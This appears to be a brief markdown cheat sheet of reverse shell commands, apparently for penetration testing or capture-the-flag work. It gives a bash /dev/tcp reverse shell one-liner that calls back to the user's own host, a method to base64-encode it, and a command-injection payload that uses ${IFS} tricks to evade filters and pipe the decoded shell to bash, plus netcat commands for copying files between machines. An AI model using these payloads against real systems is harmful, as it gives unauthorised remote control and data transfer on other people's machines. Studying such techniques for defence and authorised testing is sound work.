 ## Reverse Shell Commands

### Taking Reverse Shell By Sending URL Encoded Payload in the HTTP Request:

1. Encoding the Message into Base64 first!

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

2. Then Putting the Encoded Payload in the following URL Encoded Command:

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

3. Do URL Encode all the Key Character, do this by using Burpsuite.

### For Transferring files from One Linux System to Other

1. Using **NETCAT** listner:

- On receivers side:

```
nc -l -p <port> > any_name_u_want
```

- On Senders Side:

```
nc <receiver's ip> <port> < path_of_file_u_want_to_send
```


